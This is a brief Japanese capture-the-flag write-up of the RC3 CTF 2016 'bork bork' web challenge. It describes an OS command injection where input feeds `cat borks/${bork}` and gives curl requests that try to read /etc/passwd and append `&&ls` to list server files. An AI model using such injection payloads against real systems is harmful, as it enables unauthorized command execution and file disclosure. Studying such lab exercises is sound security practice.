 ```yaml
---
layout: post
alias: "/blog/2016/11/21/rc3-ctf-2016-bork-bork/"
date: "2016-11-21T17:47:26+09:00"
tags: [ "ctf", "writeup", "rc3-ctf", "web", "os-command-injection" ]
---
```


# RC3 CTF 2016: bork bork


れべな氏にosコマンドインジェクションと言われて続きをやった。
`cat borks/${bork}`で入るので`../bork.txt`を読めばflag: `RC3-2016-L057d0g3`。
分かりにくいファイル名はやめろ。

`;`や`*`は禁止文字だったぽい？

``` sh
$ curl https://ctf.rc3.club:3100/bork -F bork='/etc/passwd'
<!DOCTYPE html>
<html>
    <head>
        <link rel="stylesheet" type="text/css" href="/static/bork.css">
        <link rel="shortcut icon" href="/static/favicon.ico">
    </head>
    <body>
        <h1>HERE'S YOUR BORK!!!!</h1>
        <iframe width="854" height="480" src="cat: borks//etc/passwd: No such file or directory?autoplay=1&loop=1" frameborder="0"></iframe>
    </body>
</html>
```

``` sh
$ curl https://ctf.rc3.club:3100/bork -F bork='TheBorkFiles.txt&&ls'
<!DOCTYPE html>
<html>
    <head>
        <link rel="stylesheet" type="text/css" href="/static/bork.css">
        <link rel="shortcut icon" href="/static/favicon.ico">
    </head>
    <body>
        <h1>HERE'S YOUR BORK!!!!</h1>
        <iframe width="854" height="480" src="https://www.youtube.com/embed/AuRXVMSG3po
auto_bork.sh
bork.ini
bork.py
bork.pyc
borks
bork.sock
bork.txt
static
templates
wsgi.py
wsgi.pyc?autoplay=1&loop=1" frameborder="0"></iframe>
    </body>
</html>
```
